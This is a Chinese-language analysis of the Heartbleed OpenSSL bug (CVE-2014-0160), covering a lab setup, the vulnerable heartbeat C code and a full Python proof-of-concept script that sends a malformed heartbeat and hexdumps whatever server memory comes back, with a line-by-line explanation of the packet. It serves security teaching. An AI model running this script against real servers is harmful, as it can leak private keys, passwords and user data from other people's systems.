




# OpenSSL“心脏出血”漏洞的分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞编号： CVE-2014-0160
* 发现人员： 安全公司Codenomicon和谷歌安全工程师
* 漏洞简述： OpenSSL Heartbleed模块存在一个BUG，问题存在于ssl/dl_both.c文件中的心跳部分，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据会导致memcpy函数把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的OpenSSL服务器内存中多达64K的数据。
* 影响版本： OpenSSL 1.0.2-beta， OpenSSL 1.0.1 - OpenSSL 1.0.1f
* 触发函数： memcpy函数

## 2.&emsp;漏洞分析 ##

### 2.1&emsp;漏洞介绍 ###

&emsp;&emsp;OpenSSL 是一个安全协议，它可以对用户与大多数网络服务所提供的服务器之间的通信进行加密。因为很多网站(例如google等)采用的是 OpenSSL 来保护敏感的用户信息，但是OpenSSL在实现TLS和DTLS的心跳处理逻辑时，存在编码缺陷。OpenSSL的心跳处理逻辑没有检测心跳包中的长度字段是否和后续的数据字段相符合，攻击者可以利用这一点，构造异常的数据包，来获取心跳数据所在的内存区域的后续数据。这些数据中可能包含了证书私钥，用户名，用户密码，用户邮箱等敏感信息。该漏洞允许攻击者从内存中读取多达64KB的数据。

### 2.2&emsp;TLS/SSL介绍 ###

TLS 和 SSL 是两个密切相关的协议, 均用于保证两个主机之间通信数据的机密性与完整性。

TLS或 SSL 可为已存在的应用层协议(例如. HTTP, LDAP, FTP, SMTP 及其他)，添加一个安全层。它同样可以用于创建VPN解决方案(例如, OpenVPN).

SSL 协议于1994年由Netscape开发。1996年，SSL 3.0 (最后版本)被发布。IETF 基于此协议进行了开发，取名为TLS。1999年，IETF在RFC2246中发布TLS 1.0。

TLS 或 SSL 协议，由多层构成. 最接近它的上层协议是可信传输协议(例如: TCP). 它可用于封装较高层次的协议。

协议握手 – 允许服务器与客户间相互验证, 协商加密算法,交换密钥.

协议警告 – 警告讯息传达警告的严重程度和警报的描述(错误，关闭，握手障碍等). 导致连接立即终止的一些致命结果，都会产生警告。警告信息会在当前连接状态下，被加密和压缩。

协议应用 – 位于传输层协议(TCP/IP)之上, 例如: HTTP, TELNET, FTP, SMTP.

为了在客户端与服务端建立一个安全会话，TLS/SSL需要完成几步验证，并创建密钥。握手过程，交互信息如下:

### 2.3&emsp;漏洞环境搭建 ###

1. 首先我们需要一台Linux虚拟机（这里我用的是Ubuntu14.04）
2. 安装完Ubuntu虚拟机，通过命令查看当前OpenSSL版本`openssl version`
3. 通过查看看到已安装的OpenSSL版本不存在心脏出血漏洞，卸载原来的openssl，通过源码进行编译安装存在漏洞的openssl。
4. 安装Apache，同时配置https
5. 配置完成，重启Apache服务器，访问https://localhost进行验证是否成功

### 2.4&emsp;漏洞验证 ###

&emsp;&emsp;通过POC进行漏洞验证，通过本地执行Python POC 输入目标ip及端口进行验证。通过Wireshark抓包查看数据包特征。

代码执行成功，成功返回数据。

查看数据包我们可以看到POC所执行的交互过程：

1. 建立socket连接

2. 发送TLS/SSL Client Hello请求

3. 发送畸形heartbleed数据

4. 检测漏洞存在

## 3.&emsp;CVE-2014-0160漏洞分析 ##

### 3.1&emsp;源代码分析 ###

&emsp;&emsp;请看ssl/dl_both.c，漏洞的补丁从这行语句开始：

	int            
	dtls1_process_heartbeat(SSL *s)
	    {          
	    unsigned char *p = &s->s3->rrec.data[0], *pl;
	    unsigned short hbtype;
	    unsigned int payload;
	    unsigned int padding = 16; /* Use minimum padding */

&emsp;&emsp;一上来我们就拿到了一个指向一条SSLv3记录中数据的指针。结构体SSL3_RECORD的定义如下（译者注：结构体SSL3_RECORD不是SSLv3记录的实际存储格式。一条SSLv3记录所遵循的存储格式请参见下文分析）：

	typedef struct ssl3_record_st
	    {
	        int type;               /* type of record */
	        unsigned int length;    /* How many bytes available */
	        unsigned int off;       /* read/write offset into 'buf' */
	        unsigned char *data;    /* pointer to the record data */
	        unsigned char *input;   /* where the decode bytes are */
	        unsigned char *comp;    /* only used with decompression - malloc()ed */
	        unsigned long epoch;    /* epoch number, needed by DTLS1 */
	        unsigned char seq_num[8]; /* sequence number, needed by DTLS1 */
	
	    } SSL3_RECORD;

&emsp;&emsp;每条SSLv3记录中包含一个类型域（type）、一个长度域（length）和一个指向记录数据的指针（data）。我们回头去看dtls1_process_heartbeat：

	/* Read type and payload length first */
	hbtype = *p++;
	n2s(p, payload);
	
	pl = p;

&emsp;&emsp;SSLv3记录的第一个字节标明了心跳包的类型。宏n2s从指针p指向的数组中取出前两个字节，并把它们存入变量payload中——这实际上是心跳包载荷的长度域（length）。注意程序并没有检查这条SSLv3记录的实际长度。变量pl则指向由访问者提供的心跳包数据。

这个函数的后面进行了以下工作：

	unsigned char *buffer, *bp;
	int r;
	/* Allocate memory for the response, size is 1 byte
	 * message type, plus 2 bytes payload length, plus
	 * payload, plus padding
	 */
	buffer = OPENSSL_malloc(1 + 2 + payload + padding);
	
	bp = buffer;

&emsp;&emsp;所以程序将分配一段由访问者指定大小的内存区域，这段内存区域最大为 (65535 + 1 + 2 + 16) 个字节。变量bp是用来访问这段内存区域的指针。

	/* Enter response type, length and copy payload */
	*bp++ = TLS1_HB_RESPONSE;
	s2n(payload, bp);
	
	memcpy(bp, pl, payload);
&emsp;&emsp;宏s2n与宏n2s干的事情正好相反：s2n读入一个16 bit长的值，然后将它存成双字节值，所以s2n会将与请求的心跳包载荷长度相同的长度值存入变量payload。然后程序从pl处开始复制payload个字节到新分配的bp数组中——pl指向了用户提供的心跳包数据。最后，程序将所有数据发回给用户。

### 3.2&emsp;漏洞利用点 ###

用户构造的恶意payload，如果用户并没有在心跳包中提供足够多的数据，会导致什么问题？比如pl指向的数据实际上只有一个字节，那么memcpy会把这条SSLv3记录之后的数据——无论那些数据是什么——都复制出来。

## 4.&emsp;简析Heartbleed检测POC ##

	#!/usr/bin/python
	
	
	import sys
	import struct
	import socket
	import time
	import select
	import re
	from optparse import OptionParser
	
	options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
	options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
	options.add_option('-s', '--starttls', type='string', default='', help='STARTTLS protocol: smtp, pop3, imap, ftp, or xmpp (default=NULL)')
	options.add_option('-t', '--tls', type='int', default=2, help='0=SSLv3, 1=TLSv1, 2=TLS=1.1, 3=TLSv1.1 (default: 2)')
	
	def h2bin(x):
	    return x.replace(' ', '').replace('\n', '').decode('hex')
	
	hello = h2bin('''
	16 03 02 00  dc 01 00 00 d8 03 02 53
	43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
	bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
	00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
	00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
	c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
	c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
	c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
	c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
	00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
	03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
	00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
	00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
	00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
	00 0f 00 01 01
	''')
	
	# SSLv3
	hb0 = h2bin('''
	18 03 00 00 03
	01 40 00
	''')
	
	# TLSv1
	hb1 = h2bin('''
	18 03 01 00 03
	01 40 00
	''')
	
	# TLSv1.1
	hb2 = h2bin('''
	18 03 02 00 03
	01 40 00
	''')
	
	# TLSv1.2
	hb3 = h2bin('''
	18 03 03 00 03
	01 40 00
	''')
	
	
	def hexdump(s):
	    for b in xrange(0, len(s), 16):
	        lin = [c for c in s[b : b + 16]]
	        hxdat = ' '.join('%02X' % ord(c) for c in lin)
	        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
	        print '  %04x: %-48s %s' % (b, hxdat, pdat)
	    print
	
	def recvall(s, length, timeout=4):
	    endtime = time.time() + timeout
	    rdata = ''
	    remain = length
	    while remain > 0:
	        rtime = endtime - time.time()
	        if rtime < 0:
	            return None
	        r, w, e = select.select([s], [], [], 5)
	        if s in r:
	            data = s.recv(remain)
	            # EOF?
	            if not data:
	                return None
	            rdata += data
	            remain -= len(data)
	    return rdata
	
	
	def recvmsg(s):
	    hdr = recvall(s, 5)
	    if hdr is None:
	        print 'Unexpected EOF receiving record header - server closed connection'
	        return None, None, None
	    typ, ver, ln = struct.unpack('>BHH', hdr)
	    pay = recvall(s, ln, 10)
	    if pay is None:
	        print 'Unexpected EOF receiving record payload - server closed connection'
	        return None, None, None
	    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
	    return typ, ver, pay
	
	def hit_hb(s, hb):
	    s.send(hb)
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ is None:
	            print 'No heartbeat response received, server likely not vulnerable'
	            return False
	
	        if typ == 24:
	            print 'Received heartbeat response:'
	            hexdump(pay)
	            if len(pay) > 3:
	                print 'WARNING: server returned more data than it should - server is vulnerable!'
	            else:
	                print 'Server processed malformed heartbeat, but did not return any extra data.'
	            return True
	
	        if typ == 21:
	            print 'Received alert:'
	            hexdump(pay)
	            print 'Server returned error, likely not vulnerable'
	            return False
	
	BUFSIZ = 1024
	
	def main():
	    opts, args = options.parse_args()
	
	    if len(args) < 1:
	        options.print_help()
	        return
	
	    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	    print 'Connecting...'
	
	    s.connect((args[0], opts.port))
	
	    if opts.starttls != '':
	      print 'Sending STARTTLS Protocol Command...'
	
	    if opts.starttls == 'smtp':
	      s.recv(BUFSIZ)
	      s.send("EHLO openssl.client.net\n")
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'pop3':
	      s.recv(BUFSIZ)
	      s.send("STLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'imap':
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'ftp':
	      s.recv(BUFSIZ)
	      s.send("AUTH TLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'xmpp': # TODO: This needs SASL
	      s.send("<stream:stream xmlns:stream='http://etherx.jabber.org/streams' xmlns='jabber:client' to='%s' version='1.0'\n")
	      s.recv(BUFSIZ)
	
	    print 'Sending Client Hello...'
	
	    s.send(hello)
	
	    print 'Waiting for Server Hello...'
	
	    if opts.tls == 0:
	        hb = hb0
	    elif opts.tls == 1:
	        hb = hb1
	    elif opts.tls == 2:
	        hb = hb2
	    elif opts.tls == 3:
	        hb = hb3
	    else:
	        hb = hb2
	
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ == None:
	            print 'Server closed connection without sending Server Hello.'
	            return
	        # Look for server hello done message.
	        if typ == 22 and ord(pay[0]) == 0x0E:
	            break
	
	    print 'Sending heartbeat request...'
	    sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s, hb)
	
	if __name__ == '__main__':
	    main()

POC使用方式：`Python poc.py test_ip test_port`

1. 首先建立socket连接：

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	    print 'Connecting...'
	
	    s.connect((args[0], opts.port))
2. 根据连接判断协议类型，因为使用OpenSSL协议的不仅仅有https，同时还包括smtp，pop3，imap等协议

		 if opts.starttls != '':
	      print 'Sending STARTTLS Protocol Command...'
	
	    if opts.starttls == 'smtp':
	      s.recv(BUFSIZ)
	      s.send("EHLO openssl.client.net\n")
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'pop3':
	      s.recv(BUFSIZ)
	      s.send("STLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'imap':
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'ftp':
	      s.recv(BUFSIZ)
	      s.send("AUTH TLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'xmpp': # TODO: This needs SASL
	      s.send("<stream:stream xmlns:stream='http://etherx.jabber.org/streams' xmlns='jabber:client' to='%s' version='1.0'\n")
	      s.recv(BUFSIZ)

3. 建立握手连接：

		s.send(hello)

4. 握手过程完成后发送构造攻击payload，恶意心跳包：

		sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s, hb)

5. 获取心跳响应，对响应数据进行判断，是否存在心脏出血漏洞，这里的判断逻辑是：
	1. 通过函数`typ, ver, pay = recvmsg(s)`获取响应包的type：类型；version：版本；payload：填充数据
	1. 判断数据包的type类型字段是否为十六进制**\x18**转换为10进制是否为**24**，因为**type类型为\x18为心跳扩展的数据包**
	2. 确定是否为心跳包之后判断后续payload的长度，如果payload的长度大于3的话即为存在心脏出血漏洞，反之则不存在。

			def hit_hb(s, hb):
			    s.send(hb)
			    while True:
			        typ, ver, pay = recvmsg(s)
			        if typ is None:
			            print 'No heartbeat response received, server likely not vulnerable'
			            return False
			
			        if typ == 24:
			            print 'Received heartbeat response:'
			            hexdump(pay)
			            if len(pay) > 3:
			                print 'WARNING: server returned more data than it should - server is vulnerable!'
			            else:
			                print 'Server processed malformed heartbeat, but did not return any extra data.'
			            return True
			
			        if typ == 21:
			            print 'Received alert:'
			            hexdump(pay)
			            print 'Server returned error, likely not vulnerable'
			            return False

**注：**这里说明一下为什么判断payload的长度大于3的话即为存在心脏出血漏洞？

&emsp;&emsp;这里我们需要分析一下心跳包的特征：

**TLS数据包格式**

|心跳包字段|长度|说明|
|------|---|---|
|ContentType|1byte|心跳包类型，IANA组织把type编号定义为24（0x18）|
|ProtocolVersion|2bytes|TLS的版本号，目前主要包括含有心跳扩展的TLS版本：TLSv1.0，TLSv1.1，TLSv1.2|
|length|2bytes|HeartbeatMessage的长度|
|HeartbeatMessageType|1byte|Heartbeat类型 01表示heartbeat_request 02表示heartbeat_response|
|payload_length|2bytes|payload长度|
|payload|payload_length个bytes|payload的具体内容|
|padding|\>=16bytes|padding填充，最少为16个字节|

这边我们看一下POC中构造的恶意心跳数据包：

	# TLSv1.1
	hb2 = h2bin('''
	18 03 02 00 03
	01 40 00
	''')
&emsp;&emsp;通过和表格中的数据包格式进行对照，我们可以知道\x18(心跳包类型)，\x03 \x02(TLS版本：TLSv1.1)，\x00 \x03(后面的HeartbeatMessage的长度，注意:这里的值就是**3**)，\x01(Heartbeat类型 01表示heartbeat_request) , \x40 \x00(这里是希望获得的payload的长度：1024bytes)。

&emsp;&emsp;所以我们就可以理解POC代码中的判断逻辑：有心脏出血漏洞的一定是type=24 心跳包，构造的恶意padyload的padding填充为空，所以只要length>3即可。

## 5.&emsp;参考资料 ##

* [关于OpenSSL“心脏出血”漏洞的分析](https://zhuanlan.zhihu.com/p/19722263?columnSlug=drops "https://zhuanlan.zhihu.com/p/19722263?columnSlug=drops")
* [CVE-2014-0160 Heartbleed分析报告](http://www.freebuf.com/articles/web/31700.html "http://www.freebuf.com/articles/web/31700.html")
* [全面解析Heartbleed漏洞 别让心脏出血](http://soft.yesky.com/security/340/36922340.shtml "http://soft.yesky.com/security/340/36922340.shtml")
* [Heartbleed心脏出血漏洞原理分析](http://blog.csdn.net/yaofeino1/article/details/54428021 "http://blog.csdn.net/yaofeino1/article/details/54428021")

